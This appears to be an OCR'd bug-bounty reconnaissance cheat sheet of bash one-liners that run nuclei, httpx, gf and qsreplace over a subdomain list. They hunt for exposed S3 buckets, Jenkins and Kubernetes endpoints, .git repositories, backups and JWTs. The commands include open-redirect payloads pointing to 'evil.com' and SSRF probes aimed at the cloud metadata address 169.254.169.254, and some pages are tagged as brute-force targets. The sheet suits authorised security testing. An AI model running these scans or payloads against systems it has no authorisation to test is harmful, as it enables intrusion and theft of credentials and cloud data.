 Find Exposed AWS S3 Buckets via Subdomains
```bash
cat subdomains.txt | nuclei -t s3-detect.yaml -o open_s3_buckets.txt
```

Search for Potential Open Redirects (Unsafe Redirects)
```bash
cat subdomains.txt | gf redirect | qsreplace 'https://evil.com' | httpx -silent -fr 'evil.com' -o open_redirects.txt
```

Find Debug/Error Pages (Sensitive Stacktrace)
```bash
cat subdomains.txt | httpx -silent -sc -fr 'error\|exception\|trace' -o error_pages.txt
```

Detect Exposed Jenkins API Endpoints
```bash
cat subdomains.txt | httpx -silent -path /api/json -mc 200 -o jenkins_api_exposed.txt
```

Find Exposed Kubernetes Dashboard (Cluster Control)
```bash
cat subdomains.txt | httpx -silent -path /api/v1/namespaces/kube-system/services/https:kubernetes-dashboard:/proxy/ -mc 200 -o k8s_dashboard_exposed.txt
```

Detect SSRF via Open Redirect Chains
```bash
cat subdomains.txt | gf ssrf | qsreplace 'http://169.254.169.254/latest/meta-data/' | httpx -silent -fr 'ami-id\|instance-id' -o ssrf_exploitable.txt
```

Look for Backup or Archive Files (tar.gz, zip)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/backup.tar.gz\n/site-backup.zip') -mc 200 -o backup_files_exposed.txt
```

Identify Known Vulnerable CMS Versions
```bash
nuclei -l subdomains.txt -t cves/ -o cms_cve_vulns.txt
```

Find JWT Tokens or Sensitive Tokens in Responses
```bash
cat subdomains.txt | httpx -silent -sr | grep -Eo 'eyJ[^"]+' | tee jwt_tokens.txt
```

Detect Basic Auth Protected Pages (Bruteforce Target)
```bash
cat subdomains.txt | httpx -silent -sc -H "Authorization: Basic fakeauth" -o basic_auth_detected.txt
```

Detect Exposed .git Repositories (Full Source Code Leak)
```bash
cat subdomains.txt | httpx -silent -path /.git/config -mc 200 -o exposed_git_repos.txt
```

